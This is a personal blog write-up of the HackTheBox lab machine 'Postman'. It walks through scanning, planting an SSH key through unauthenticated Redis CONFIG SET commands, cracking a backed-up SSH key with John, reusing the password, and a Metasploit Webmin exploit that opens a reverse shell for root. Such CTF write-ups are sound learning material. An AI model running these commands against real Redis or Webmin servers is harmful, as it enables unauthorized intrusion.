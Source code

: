 ```yaml
---
title: HackTheBox Postman 
author: Marius Kimmina
date: 2020-03-14 14:10:00 +0800
categories: [HackTheBox]
tags: [Redis, Webminn]
published: true
---
```


# 0x0 Introduction
My first post on a HTB machine and the second Box I managed to own (the first one is yet to retire so there will also be writeup for that) featuring redis and webmin.  
![image](/assets/images/Postman_htb.png "Postman Logo")


# 0x1 Getting a foothold

As usual we start the box with an nmap scan
```
nmap -sV -sC -oA nmap/nmap 10.10.10.160
```
This revealed a webmin instance on version 1.1910 which has a privilege escalation vulnerability, but we need to be a user first to use that.  
Everything else revealed on this first scan did not seem all that interesting so I went for a second, larger, scan.  
```
nmap -p- -o nmap-all 10.10.10.10.160
```
Once that finished it revealed that redis was running on port 6379. Redis is a NoSQL Database that works with key-value-pairs, and there are multiple exploits known for it, so that makes a good target.  
To work with redis we need to install the redis-tools:
```
sudo apt get install redis-tools
```
I followed a simple exploit (found here: https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) to replace redis's ssh key with our own, first we need to create an ssh-key of our own.  

```
ssh-keygen -t rsa
```

Then wrote the public-key fo a file 

```
(echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > pub.txt
```

Next I imported the key into redis 

```
cat pub.txt | redis-cli -h 10.10.10.160 -x set s-key
```

And then we place that key for the redis-user:

```
mindslave@kalibox:~/hackthebox/Postman/redis$ redis-cli -h 10.10.10.160
10.10.10.160:6379> CONFIG GET dir
1) "dir"
2) "/var/lib/redis"
10.10.10.160:6379> CONFIG SET dir /var/lib/redis/.ssh
OK
10.10.10.160:6379> CONFIG SET dbfilename authorized_keys
OK
10.10.10.160:6379> save
OK
```

Now we can ssh into the box as "redis" using our private ssh-key that we generated before.

```
redis@Postman:~$ 
```

# 0x2 Getting the user.txt

First I found out that user "Matt" existed on the system by doing a simple 

```
ls /home
```

Then after enumerating the box for a while (looking for all sorts of interesting files/services/stuff that could lead us further).  
I came across the /opt/backup directory and backups are of course always something to look for. In the backup directory was a file called id_rsa.bak, I copied the key to my host maschine and asked my friend john if he knew something about it. First we had to use the ssh2john.py to convert the ssh-key into a format that john can work with.

```
mindslave@kalibox:~/hackthebox/Postman/ssh$ /usr/share/john/ssh2john.py id_rsa > johnfile.txt
```

```
mindslave@kalibox:~/hackthebox/Postman/ssh$ john --wordlist=/usr/share/wordlists/rockyou.txt johnfile.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 8 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa)
Warning: Only 2 candidates left, minimum 8 needed for performance.
1g 0:00:00:04 DONE (2020-02-09 07:01) 0.2074g/s 2975Kp/s 2975Kc/s 2975KC/sa6_123..*7¡Vamos!
Session completed
```

Now we have the ssh-key and we know that the password for the key is "computer2008" but this is where this box got a little bit weird. When we tried to connect to the box as matt with the ssh-key and password we get a "connection closed" immediately, which had me confused for a couple of hours. Back on the redis-user, looking at the ssh-config (/etc/ssh/ssh_config and etc/ssh/sshd_config) I found the following line:

```
DenyUsers Matt
```

And honestly, if Matt is not allowed to connect via ssh, why does he even have an ssh-key? And a backup of that key even.  
But well it turned out that Matt is not very good with passwords and reused the key password as his local password, so we could just

```
redis@Postman:~$ su Matt
Password: 
Matt@Postman:/var/lib/redis$
```

and then we had access to the user.txt in Matt's home directory


# 0x3 Getting the root.txt

To get the root user we had to go back to the webmin instance that we found earlier. Matt was also registered there and of course he used the same password "computer2008" for that as well. Knowing that we could use the privilege escalation exploit that I mentioned earlier.  
While I generally prefer to do things without Metasploit, sometimes it is just too convenient. So I entered Matts credentials and set the RHOSTS RPORT LHOST and LPORT Parameter and fired.

```
msf5 exploit(linux/http/webmin_packageup_rce) > exploit 

[*] Started reverse TCP handler on 10.10.14.87:9666 
[+] Session cookie: cf236dc0067d4ca9410f89e64b2bb62d
[*] Attempting to execute the payload...
[*] Command shell session 1 opened (10.10.14.87:9666 -> 10.10.10.160:45232) at 2020-02-09 10:17:54 +0100
whoami
root
cat /root/root.txt
a257741c5bed8be7778c6ed95686ddce
```

# 0x4 Closing words

This way my second box on HTB (probably the first one I get to post about tho, since it will retire first), and I learned quite a lot from it, especially the whole redis part that had an unnatural place for an .ssh folder to be. Thanks to the Author a great box for new people in the hacking field. 
